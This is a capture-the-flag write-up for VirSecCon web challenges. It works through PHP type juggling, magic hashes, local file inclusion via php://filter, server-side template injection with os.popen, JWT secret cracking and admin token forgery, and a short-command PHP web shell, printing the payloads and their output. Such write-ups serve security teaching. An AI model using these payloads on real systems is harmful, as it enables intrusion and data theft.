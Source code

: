 
<h1 align="center">Web Exploitation</h1>


<h3>PHPJuggler 80 points</h3>

PHP is here to entertain again! They’ve shown you magic tricks, disappearing acts, and now… juggling!

Connect here: http://jh2i.com:50030.

<p align="center"><img src="../Files/juggler.png"></img></p>

``` shell
Php Type Juggling strcmp:

submit POST requests with flag[]=flag
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 6
You got it! That's the correct flag!
LLS{php_dropped_the_ball_again}

Flag: LLS{php_dropped_the_ball_again}
```

<h3>Magician 80 points</h3>

Show me a hat trick!

Connect here: http://jh2i.com:50000

<p align="center"><img src="../Files/magician.png"></img></p>

``` shell
Magic Hash as whihehat security or 247CTF!!!:

hash ==> 0e908377363673038390833004129775
password ==> f789bbc328a3d1a3e4UPoL

Flag: LLS{magic_hashes_make_for_a_good_show}
```

<h3>GLHF 90 points</h3>

LMFAO! FLAG PLZ, THX!

Connect here: http://jh2i.com:50014

``` shell
Local file inclusion: LFI:

http://jh2i.com:50014/index.php?page=php://filter/convert.base64-encode/resource=index

<?php
	
	
	if ( ! isset($_GET['page']) ){

		echo("we got nothing!");
		header('Location: /index.php?page=home');
	}

	else{

		include(str_replace('.php', '', $_GET['page']) . ".php" );
	}
?>	

http://jh2i.com:50014/index.php?page=php://filter/convert.base64-encode/resource=FLAG

<!DOCTYPE html>

<html>
    <head>
        <title> PHPLFIXYZ </title>
    </head>
    <body>

    <h1> FLAG???? </h1>

    <h1> WTF, PLZ??? </h1>

    <!-- SRY PHP LFI NBD -->

    </body>
</html>
<?php
    /*
    // _______________________________________________________________

                        LLS{lmfao_php_filters_ftw}

    // _______________________________________________________________
    */
?>

Flag: LLS{lmfao_php_filters_ftw}
```

<h3>MASK 90 points</h3>

Take off your mask.

Connect here: http://jh2i.com:50023.

<p align="center"><img src="../Files/mask.png"></img></p>

``` shell
Server Side Template Injection:

test ==> {{7*7}} response 49

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

<p align="center"><img src="../Files/mask0.png"></img></p>

<p align="center"><img src="../Files/mask1.png"></img></p>

``` shell
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}

Flag: LLS{server_side_template_injection_unmasked}
```


<h3>JaWT 90 points</h3>

Check the admin's scratchpad!

Connect here: http://jh2i.com:50019/

<p align="center"><img src="../Files/jawt.png"></img></p>

``` shell
Challenge as PicoCTF and use crackjwt.py

FOR JOHN
python crackjwt.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiam9obiJ9.rbnjOn5BykmgvHXJyaasrM08WFQji58yEnmzkfQ8Wmc" /media/sf_D_DRIVE/WORDLISTS/rockyou.dic
Cracking JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiam9obiJ9.rbnjOn5BykmgvHXJyaasrM08WFQji58yEnmzkfQ8Wmc
1648it [00:00, 6560.78it/s]
('Found secret key:', 'fuckit')

FOR ADMIN
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.qfSqP1u-gAhG6r8Vfb31Fi5WkjYCxjRKhFEcLCde8O0

Change value of cookie jwt

 Hello admin!

Here is your JaWT scratchpad!

LLS{jawt_was_just_what_you_thought}

Flag: LLS{jawt_was_just_what_you_thought}
```


<h3>10 Character Web Shell 100 points</h3>

Only 10 char--

Connect here: http://jh2i.com:50001.

``` shell
<?php

    $c = $_GET[c];

    if(strlen($c) < 10){
            echo shell_exec($c);
    }else{
            echo "too long!";
    }
    highlight_file(__FILE__);
?>

http://jh2i.com:50001/?c=cat%20flag*
```
<p align="center"><img src="../Files/web.png"></img></p>

``` shell
Flag: LLS{you_really_can_see_in_the_dark}
```


<h3>Dairy Products 100 points</h3>

There is a new advertising campaign on the classic dairy company’s website. You need to steal their latest product.

Connect here: http://142.93.3.19:50008


<p align="left"><a href="https://github.com/Ne0Lux-C1Ph3r/WRITE-UP/blob/master/VirSecCon CTF/index.md">Return to the main menu</a></p>
